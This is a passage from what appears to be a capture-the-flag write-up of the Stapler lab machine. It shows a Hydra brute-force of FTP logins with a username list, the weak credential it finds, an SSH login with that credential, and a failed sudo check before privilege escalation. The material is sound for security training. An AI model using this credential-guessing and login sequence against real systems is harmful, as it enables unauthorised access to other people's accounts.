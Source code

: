 ```
```
Now that we have a list of users we can test these user combinations on an open service like FTP or SSH to see if anyone is using weak credentials.

```
┌──(hhhharshil㉿kali)-[~/Desktop/stapler]
└─$ hydra -L users.txt -P users.txt 192.168.155.148 ftp     
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-26 03:16:47
[DATA] max 16 tasks per 1 server, overall 16 tasks, 900 login tries (l:30/p:30), ~57 tries per task
[DATA] attacking ftp://192.168.155.148:21/
[21][ftp] host: 192.168.155.148   login: SHayslett   password: SHayslett

```

Hydra reveals a valid password of SHayslett for the user SHayslett.

## Foothold: SSH
---
We can test the credentials revealed by Hydra on the services running on the box such as SSH.
```
┌──(hhhharshil㉿kali)-[~/Desktop/stapler]
└─$ ssh SHayslett@192.168.155.148
-----------------------------------------------------------------
~          Barry, don't forget to put a message here           ~
-----------------------------------------------------------------
SHayslett@192.168.155.148's password: 
Welcome back!


SHayslett@red:~$ 


SHayslett@red:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for SHayslett: 
Sorry, user SHayslett may not run sudo on red.
SHayslett@red:~$ 
```

Sudo -l  revealed that we can't run sudo on the box so there must be another way that we can elevate privileges.
